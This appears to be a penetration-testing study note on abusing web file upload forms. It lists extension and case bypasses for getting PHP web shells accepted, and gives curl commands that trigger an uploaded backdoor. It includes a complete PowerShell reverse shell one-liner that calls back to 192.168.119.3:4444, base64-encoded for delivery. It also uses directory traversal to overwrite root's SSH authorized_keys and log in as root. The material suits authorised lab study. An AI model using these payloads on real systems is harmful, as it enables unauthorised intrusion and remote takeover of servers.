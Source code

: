 
Do discover FUVs we must find obvious file upload vectors or make an educated guess at the location of upload mechanisms - e.g. CMS will provide uploads for profile avatars, create blog posts and web pages with attached files. A lawyers office may have an upload mechanism for case files. They are not always obvious so we must never skip enumeration.


### Using Executable Files

1. Test the file upload by attempting to upload files that were not specified or intended to be uploaded - if we get a successful upload of a text file for an image upload we may be able to utilize this for an executable file.
2. If our executable upload is rejected - e.g. `.php` file, we can try other extensions that are compatible like `.phar, .phps, .php7`, etc.
3. If alternate extensions do not work we can attempt to mess with the case of the extension - e.g. `.phar -> .phAR`.
4. `curl http://url/directory/uploads/backdoor.pHP?cmd=dir`- After successful upload we can utilize curl to trigger out backdoor.
5. for a windows target we can send a PowerShell one-liner base64 encoded using curl

```
pwsh

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

exit
```

6. start Netcat
7. `curl http://target/directory/backdoor.pHP?cmd=powershell%20-enc%20BASE-64-PAYLOAD`

`Web applications handling and managing files often enable users to rename or modify files. We could abuse this by uploading a file with an innocent file type like **.txt**, then changing the file back to the original file type of the web shell by renaming it.`


### Using Non-Executable Files

we may find unrestricted file upload vulnerabilities but we may not be able to execute said files.

In these situations we need to leverage other vulnerabilities like directory traversal to abuse the file upload mechanism.

`When testing a file upload form, we should always determine what happens when a file is uploaded twice. If the web application indicates that the file already exists, we can use this method to brute force the contents of a web server. Alternatively, if the web application displays an error message, this may provide valuable information such as the programming language or web technologies in use`

If we find we can upload an unrestricted file type - we should check if we can upload the file to a directory outside of the web root or somewhere else unintended. This may enable us to overwrite files on the machine.

such as ssh keys.

1. `ssh-keygen` - create a new public private key pair
2. `cat key.pub > authorized_keys` - cat the contents of our new public key into a file called `authorized_keys ` which will match the name of the` authorized_keys` file in the `root/.ssh/` directory.
3. attempt to upload the file using burpsuite to intercept the POST request and edit the file name in the content description of the request to attempt to make use of directory traversal. `filename="authorized_keys"` to `filename="../../../../../../../../root/.ssh/authorized_keys"`.
4. `rm ~/.ssh/known_hosts` - may need to remove known_hosts file to prevent errors
5. `ssh -p <port> -i privatekey root@ip/url` - connect to the remote server with the newly overwritten key

